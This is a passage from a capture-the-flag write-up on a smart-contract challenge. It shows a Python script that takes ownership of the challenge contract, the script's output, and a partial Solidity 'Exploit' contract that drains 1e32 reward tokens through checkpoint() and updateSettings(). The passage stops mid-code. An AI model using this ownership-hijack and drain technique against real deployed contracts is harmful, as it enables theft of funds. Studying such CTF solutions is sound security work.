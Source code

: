 ```python
print(res.text)

# send transaction for updateSettings() to set our address as owner
burp0_json={"sequences": [], "userToken": "lastCombined"}
res = requests.post(burp0_url, json=burp0_json)
print(res.text)
```

Just run it and our EOA becomes the owner

```
# python3 changeOwner.py 
{"succuss":true}
{"succuss":false,"error":{}}
{"succuss":false,"error":{}}
{"succuss":true}

# cast call 0x96859b47bb03223104c9f12E7016dAaD9971d107 "owner()(address)" -r http://rpc.ctf.so:8545/bdfnrentvqmqnzvalrlqgsvp/main
0x3CEdf1aD30f4DAC57196a3b7Ef4b2F9B0ad536Db
```

Then we have to drain the rewardToken from the challenge contract by changing `combinedMultiplier` and `timePerClaim`, as we are now the owner we can change it easily by just calling `updateSettings()` 

I wrote a contract to precisely drain the all 1e32 of rewardToken from the challenge contract to 0 or revert if the time passed can't drain the challenge contract completely

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Challenge.sol";

contract Exploit {
    Challenge public chal;
    uint public oldTime;

    constructor(address _chal) {
        chal = Challenge(_chal);
    }

    function solve() public {
        Challenge.Action[] memory actions = new Challenge.Action[](1);
        actions[0]._type = 0;
        actions[0].timestamp = 0;
        actions[0].extraInfo = uint256(uint160(address(this)));
        chal.checkpoint(1337, actions);
        
        actions[0]._type = 1;
        actions[0].timestamp = 1;
        chal.checkpoint(1337, actions);

        actions[0]._type = 1;
        actions[0].timestamp = 1;
        chal.checkpoint(1337, actions);
        oldTime = block.timestamp;
    }

    function solve2() public {
        Challenge.Action[] memory actions = new Challenge.Action[](1);
        uint multiplier = uint(1e32)/(block.timestamp-oldTime) - 2;
        require((2 + multiplier ) * (block.timestamp-oldTime) == uint(1e32), "1e32 isnt divisible");
        chal.updateSettings(address(this), multiplier, 0);
```